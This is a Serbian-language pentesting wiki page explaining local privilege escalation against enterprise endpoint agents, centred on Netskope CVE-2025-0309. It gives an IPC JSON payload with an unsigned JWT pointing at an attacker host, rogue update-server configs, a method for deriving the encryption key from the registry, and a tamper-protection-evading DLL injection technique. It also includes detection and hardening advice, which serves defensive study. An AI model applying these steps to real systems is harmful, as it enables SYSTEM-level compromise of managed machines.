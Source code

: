 # Zloupotreba Enterprise Auto-Updaters i privilegisanog IPC-a (npr. Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Ova stranica generalizuje klasu Windows lokalnih lanaca za eskalaciju privilegija pronađenih u enterprise endpoint agentima i updaterima koji izlažu low‑friction IPC površinu i privilegovani tok ažuriranja. Reprezentativan primer je Netskope Client for Windows < R129 (CVE-2025-0309), gde korisnik sa niskim privilegijama može naterati enrollment na server pod kontrolom napadača i zatim isporučiti zlonamerni MSI koji servis pokrenut kao SYSTEM instalira.

Ključne ideje koje možete ponovo iskoristiti protiv sličnih proizvoda:
- Zloupotrebite localhost IPC privilegisanog servisa da prisilite ponovni enrollment ili rekonfiguraciju na server napadača.
- Implementirajte vendorove update endpoint-e, dostavite lažni Trusted Root CA, i usmerite updater na zlonamerni „signed“ paket.
- Izbegnite slabe provere potpisivača (CN allow‑lists), opciona digest zastavice, i popustljiva MSI svojstva.
- Ako je IPC „encrypted“, izvedite key/IV iz world‑readable identifikatora mašine smeštenih u registry.
- Ako servis ograničava pozivaoce po image path/process name, injektujte u proces sa liste dozvoljenih ili spawn-ujte jedan u suspended stanju i bootstrap-ujte svoj DLL putem minimalnog patch-a thread‑contexta.

---
## 1) Prisiljavanje enrollmenta na server napadača preko localhost IPC-a

Mnogi agenti dolaze sa user‑mode UI procesom koji komunicira sa SYSTEM servisom preko localhost TCP koristeći JSON.

Primećeno u Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Tok eksploatacije:
1) Sastavite JWT enrollment token čiji claims kontrolišu backend host (npr. AddonUrl). Koristite alg=None tako da nije potreban potpis.
2) Pošaljite IPC poruku koja poziva provisioning command sa vašim JWT i tenant name:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Servis počinje da upućuje zahteve vašem zlonamernom serveru za enrollment/config, npr.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notes:
- Ako je caller verification zasnovana na path/name‑based, pošaljite zahtev iz allow‑listed vendor binary (see §4).

---
## 2) Otmica update kanala da bi se pokrenuo kod kao SYSTEM

Kada klijent razgovara sa vašim serverom, implementirajte očekivane endpoints i usmerite ga na attacker MSI. Tipičan redosled:

1) /v2/config/org/clientconfig → Vratite JSON config sa veoma kratkim updater intervalom, npr.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Vraća PEM CA сертификат. Servis ga instalira u Local Machine Trusted Root store.
3) /v2/checkupdate → Dostavi metapodatke koji upućuju na maliciozni MSI i lažnu verziju.

Zaobilaženje uobičajenih provera viđenih u stvarnom svetu:
- Signer CN allow‑list: servis može samo proveravati da li Subject CN odgovara “netSkope Inc” ili “Netskope, Inc.”. Vaš rogue CA može izstaviti leaf sertifikat sa tim CN i potpisati MSI.
- CERT_DIGEST property: uključite benigni MSI property pod imenom CERT_DIGEST. Nema primene pri instalaciji.
- Optional digest enforcement: konfig flag (npr. check_msi_digest=false) onemogućava dodatnu kriptografsku validaciju.

Rezultat: SYSTEM servis instalira vaš MSI iz
C:\ProgramData\Netskope\stAgent\data\*.msi
i izvršava proizvoljni kod kao NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

Od R127, Netskope je umotao IPC JSON u polje encryptData koje liči na Base64. Reverzno inženjerstvo je pokazalo AES sa ključem/IV izvedenim iz vrednosti u registry-ju koje su čitljive bilo kom korisniku:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Napadači mogu reprodukovati enkripciju i poslati validne enkriptovane komande iz standardnog korisničkog konteksta. Opšti savet: ako agent iznenada „šifruje“ svoj IPC, tražite device ID-e, product GUID-ove, install ID-e pod HKLM kao materijal za derivaciju.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Neki servisi pokušavaju da autentifikuju peer rešavanjem PID-a TCP konekcije i poređenjem image path/name sa allow‑listovanim vendor binarima smeštenim pod Program Files (npr. stagentui.exe, bwansvc.exe, epdlp.exe).

Dva praktična zaobilaženja:
- DLL injection u allow‑listovani proces (npr. nsdiag.exe) i proxy-ovanje IPC iznutra.
- Pokrenuti allow‑listovani binarni fajl u suspended stanju i bootstrap-ovati svoj proxy DLL bez CreateRemoteThread (vidi §5) da biste zadovoljili driver‑enforced tamper pravila.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Proizvodi često isporučuju minifilter/OB callbacks driver (npr. Stadrv) koji uklanja opasna prava sa handle-ova za zaštićene procese:
- Process: uklanja PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: ograničava na THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

Pouzdan user‑mode loader koji poštuje ta ograničenja:
1) CreateProcess vendor binar‑a sa CREATE_SUSPENDED.
2) Nabavite handle-ove kojih ste još uvek sposobni: PROCESS_VM_WRITE | PROCESS_VM_OPERATION na procesu, i thread handle sa THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (ili samo THREAD_RESUME ako patch-ujete kod na poznatom RIP).
3) Overwrite ntdll!NtContinue (ili drugi rani, garantovano mapiran thunk) sa malim stub-om koji poziva LoadLibraryW na putanju vaše DLL, zatim se vraća.
4) ResumeThread da pokrenete vaš stub u procesu, koji učita vašu DLL.

Pošto nikada niste koristili PROCESS_CREATE_THREAD ili PROCESS_SUSPEND_RESUME na već‑zaštićenom procesu (vi ste ga kreirali), driver-ova politika je zadovoljena.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automatizuje rogue CA, potpisivanje malicioznog MSI-a i servisira potrebne endpoint-e: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope je custom IPC client koji gradi proizvoljne (opciono AES‑šifrovane) IPC poruke i uključuje suspended‑process injection da poreklo bude iz allow‑listovanog binarnog fajla.

---
## 7) Detection opportunities (blue team)
- Monitorisati dodatke u Local Machine Trusted Root. Sysmon + registry‑mod eventing (vidi SpecterOps guidance) dobro rade.
- Flagovati MSI izvršenja pokrenuta od strane agentovog servisa iz putanja kao što su C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Pregledati agent logove za neočekivane enrollment hostove/tenant-e, npr.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – tražiti addonUrl / tenant anomalije i provisioning msg 148.
- Alertovati na localhost IPC klijente koji nisu očekivani signed binari, ili koji potiču iz neuobičajenih child process tree-ova.

---
## Hardening tips for vendors
- Bind enrollment/update hostove na strogu allow‑listu; odbijajte nepouzdane domene u clientcode-u.
- Autentifikujte IPC peer‑ove OS primitivima (ALPC security, named‑pipe SIDs) umesto provera image path/name.
- Držite tajni materijal van world‑readable HKLM; ako IPC mora biti enkriptovan, izvedite ključeve iz zaštićenih secret-a ili pregovarajte preko autentifikovanih kanala.
- Tretirajte updater kao supply‑chain površinu: zahtevajte pun lanac do trusted CA koju kontrolišete, verifikujte potpis paketa prema pinned ključevima i fail‑closed ako je validacija onemogućena u konfiguraciji.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
